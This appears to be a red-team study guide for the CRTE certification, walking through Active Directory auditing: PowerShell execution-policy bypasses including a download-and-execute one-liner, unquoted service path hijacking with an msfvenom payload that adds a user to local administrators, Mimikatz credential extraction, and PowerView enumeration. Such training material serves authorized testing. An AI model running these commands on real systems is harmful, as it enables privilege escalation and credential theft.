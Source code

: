# General

In the journey to CRTE you need to understand the basic methodology to audit an Active Directory Environment.

![Pasted image 20220428103516](https://user-images.githubusercontent.com/94725286/177431659-8f09fadf-9f2a-4a93-8c9e-8efdfc9a84f6.png)

>:exclamation:Domain Admin is not the only way to own an Active Directory environment.

>:exclamation:CRTE is not a certification oritented to exploit vulnerabilities, is oriented to abuse a missconfigured environment.

## Step 01 - Local enumeration

In a real red team operation, you don't have a high privilege account, you need to enumerate your local machine and your domain account.

In many case you have a minimum privileges account, in this case you don't have permission to execute scripts or tools. Is neccessay bypass those controls.

```
PS C:\Users\0xdemiafk\Documents\> Get-ExecutionPolicy

Restricted
```

A good tool to bypass the Execution Policy is using [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell). 

Using InvisiShell you are able to bypass some controls.

>:warning: InvisiShell must be executed with CMD.

```
C:\Users\0xdemiafk\Documments\> RunWithRegistryNonadmin.bat
```

With a InvisiShell terminal you're able to execute or import scripts.

A lot of techniques to bypass execution policy can be found on internet.

```
PS C:\Users\0xdemiafk\Documents\> Get-Content .\PowerView.ps1 | PowerShell.exe -noprofile -
```

```
PS C:\Users\0xdemiafk\Documents\> powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://localhost:8080/PowerView.ps1')"
```

```
PS C:\Users\0xdemiafk\Documents\> PowerShell.exe -ExecutionPolicy UnRestricted -File .PowerView.ps1
```

```
PS C:\Users\0xdemiafk\Documents\> PowerShell.exe -ExecutionPolicy Remote-signed -File .PowerView.ps1
```

When you are able to import or execute script you can use PowerView or ActiveDirectory module to start to enumerating your system.

<br>

### Enumerating group membership

```
PS C:\Users\0xdemiafk\Documents\> whoami /GROUPS
```

### Enumerating unquoted path services.

>:fire:	What is an Unquoted Path Services Hijacking?
>
>Is a miss configuration on the service executable reference. An unquoted path service can be attack replacing the legit executable to a malicious one if an attacker has permission to write on some place of the path. In the order to find for the executable, the operating system tries to execute each block in the path, each space in the executable path delimits a new block.

```
PS C:\Users\0xdemiafk\Documents\> Get-WmiObject -Class win32_service | select pathname
```

### Importing and executing PowerUp

```
PS C:\Users\0xdemiafk\Documents\> Import-Module PowerUp.ps1; Invoke-AllChecks
```


### Importing Active Directory Module.

```
PS C:\Users\0xdemiafk\Documents\> Import-Module .\Microsoft.ActiveDirectory.dll -Verbose
```

```
PS C:\Users\0xdemiafk\Documents\> Import-Module .\ActiveDirectory.psd1
```
### Importing PowerView

```
PS C:\Users\0xdemiafk\Documents\> .\PowerView.ps1
```

## Step 02 - Local Privilege Escalation

>:warning: In some cases is not possible to escalate privilege on the first machine. In this case is necessary enumerate another machines that you can access. Local Admin is a necessary permission to perform some attacks.

### Perform an Unquoted Path Service Hijacking

If you identify a vulnerable path and wrong permission, you can place a payload to elevate your privileges.

Example:

```
C:\Program Files\Vulnerable service\path to the executable\executable.exe
```

The execution order is:

```
C:\Program.exe 
C:\Program Files\Vulnerable.exe 
C:\Program Files\Vulnerable service\path.exe
C:\Program Files\Vulnerable service\path to the executable\executable.exe
```

Having write privileges on one of those folder, is possible to place an executable with a malicious payload.

```
0xdemiafk@root# msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators redteamuser /add" -f exe > path.exe
```

### Steal local keys with mimikatz (Using local administrator permission)

```
PS C:\Users\0xdemiafk\Documents\> Import-Module Mimikatz.ps1
```

```
PS C:\Users\0xdemiafk\Documents\> Invoke-Mimikarz -Command "'sekurlsa::ekeys'"
```


## Step 03 - Active Directory enumeration

>:warning: Don't try to get domain admin user quickly, rarely you can own a domain admin account.

Enumerate all GPOs using "Restircted Groups"

> :information_source: A Restricted Group is an object to represent a local group in a computer.

```
PS C:\Users\0xdemiafk\Documents\> Get-DomainGPOLocalGroup
```

Enumerate all members from a group (Using ADModule).

```
PS C:\Users\0xdemiafk\Documents\> Get-ADGroupMember "Domain Admins" -Recursive

```

Enumerate all OUs.

```
PS C:\Users\0xdemiafk\Documents\> Get-DomainOU
```

Enumerate OUs that contains "domain":

```
PS C:\Users\0xdemiafk\Documents\> Get-DomainOU -Identity "*domain*"
```

Enumerate GPO applied to an OU:

```
PS C:\Users\0xdemiafk\Documents\> Get-DomainGPO -Identity "{FCE16496-C744-4E46-AC89-2D01D76EAD68}"
```


